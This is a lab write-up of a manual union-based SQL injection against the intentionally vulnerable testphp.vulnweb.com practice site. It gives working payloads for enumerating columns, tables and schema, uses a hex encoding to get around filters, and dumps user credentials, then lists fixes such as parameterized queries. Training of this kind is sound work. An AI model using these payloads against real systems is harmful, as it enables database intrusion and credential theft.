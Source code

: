 # Mini Project 06: SQL Injection Attack on testphp.vulnweb.com

## Summary

Performed a successful manual SQL Injection attack on `http://testphp.vulnweb.com`, an intentionally vulnerable website used for educational purposes.  
This project demonstrates step-by-step exploitation, from testing input vulnerability to extracting database info, table names, and user credentials.

---

## Objective

- Confirm if the web app is vulnerable to SQLi  
- Use union-based SQL Injection to extract database information  
- Identify users and their passwords from the backend

---

## Environment

- Target URL: `http://testphp.vulnweb.com`
- Tools: Web browser (manual testing only)

---

## Attack Demonstration

### Step 1: Check DB Connectivity

- **URL:** `http://testphp.vulnweb.com/listproducts.php?cat=1`
- Clicking "Browse Categories" changes the URL → indicates DB connection.

---

### Step 2: Check for SQL Injection

- **Payload:** `?cat=1'`
- **Result:** Error in response → Site is **vulnerable** to SQL injection.

---

### Step 3: Find Number of Columns

- **Payload (success):**  
  `?cat=1 order by 1` → ✅  
- **Payload (fail):**  
  `?cat=1 order by 12` → ❌  

➡️ Total usable columns: **11**

---

### Step 4: Find Vulnerable Columns

- **Payload:**  
  `?cat=1 union select 1,2,3,4,5,6,7,8,9,10,11`

- **Result:** Column 7 displayed → column 7 is injectable

---

### Step 5: Get Database Name

- **Payload:**  
  `?cat=1 union select 1,2,3,4,5,6,database(),8,9,10,11`

- **Result:**  
  Database: `acuart`

---

### Step 6: Get Table Names

- **Payload:**  
  ?cat=1 union select 1,2,3,4,5,6,group_concat(table_name),8,9,10,11
from information_schema.tables where table_schema=database()

- **Result:**  
`artists,carts,categ,featured,guestbook,pictures,products,users`  
➡️ Target table: `users`

---

### Step 7: Get Column Names from `users` Table

- **Payload:**  
  ?cat=1 union select 1,2,3,4,5,6,group_concat(column_name),8,9,10,11
from information_schema.columns where table_name=0x7573657273

- **Result:**  
`address,cart,cc,email,name,pass,phone,uname`  
➡️ Target columns: `uname`, `pass`

---

### Step 8: Dump User Credentials

- **Payload:**  
  ?cat=1 union select 1,2,3,4,5,6,group_concat(uname,0x3A0A,pass),8,9,10,11
from users

- **Result:**  
`Username: test`  
`Password: test`

---

## Findings & Fixes

### a. Database Accepts Input from URL

- **Risk:** SQL commands executed from URL  
- **Fix:** Use parameterized queries and prepared statements.

### b. Broken Error Handling

- **Risk:** No proper 404 or input validation feedback  
- **Fix:** Add error pages and input sanitization.

### c. Firewall Can Be Bypassed

- **Risk:** Encoded inputs (like hex values) bypass filters  
- **Fix:** Use behavioral rules, not just string-based filters.

---

## Conclusion

The test site was successfully exploited using SQL injection.  
Findings demonstrate real-world issues such as:
- Input fields directly affecting SQL queries
- Lack of input validation and error handling
- Insufficient web application firewall (WAF) logic

> Fixing these issues in test environments builds skills to prevent them in production systems.
